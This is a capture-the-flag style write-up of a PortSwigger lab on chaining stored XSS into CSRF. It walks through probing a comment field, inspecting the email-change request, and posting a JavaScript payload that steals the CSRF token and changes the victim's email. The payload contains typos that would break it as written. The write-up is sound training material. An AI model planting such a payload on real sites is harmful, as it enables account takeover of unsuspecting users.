 ### Exploiting XSS to perform CSRF
                                                

### Lab description:-
 ![img](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/description.png)

### Introduction
 - **Stored XSS**, also known as persistent XSS which occurs when a malicious script is injected directly into a vulnerable web application. 
 - **Cross-site request forgery (also known as CSRF)** is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.

### Steps:

- let's start with check the blog comments to know how to exploit XSS at it by typing darsh'"< > to show if it will accept these quotes and brackets or not ?!

![](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/check.png)

![](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/darsh.png)

  as we see in the source page in last figure they are printed as they are written, *so we can write any script in the comment*. 
 
 - 2nd step is to login using given user name and password and update the email with to be attacker@gmail.com

 ![](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/login.png) 
 
 ![](email.png)
 
 - 3rd step is to go to the burpsuite to see the request sent when we update the email 
 
 ![](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/email.png)
 
     and as we see the request send the email and csrf in the request.
 
 - *the most important step is how we can use XSS to peform CSRF and change the user email by any email we want*
     we need to write scipt in comment page which send get request to account page to take the CSRf from it and send it with email we want ( i use darsh@gmail.com)
     to update the user email with this email.
     
    ```js:<script>
    var request = new XMLHttpRequest() ;
    request.onreadystatechange = changeEmail;
    request.open("get","/my-account",true)
    request.send() ; 
    function changeEmail(){
      var token = thins.reposeText.match(/name ="csrf" value= "(\w+)"/)[1] ;
      var change = new XMLHttpRequest();
      change.open("post","/my-account/change-email",true);
      change.send("email=darsh@gmail.com&csrf="+token) ;

    }

</script>
 
   ** This script send get request to account page to take the CSRf from it and send it with email we want (darsh@gmail.com)
    (post req)to update the user email with this email and then put it as a comment in blog comments page **
    
    ![](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/comment.png)
   
   after that if we return to account page we see that the email changed successfuly.
   
   ![](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/done.png)
   
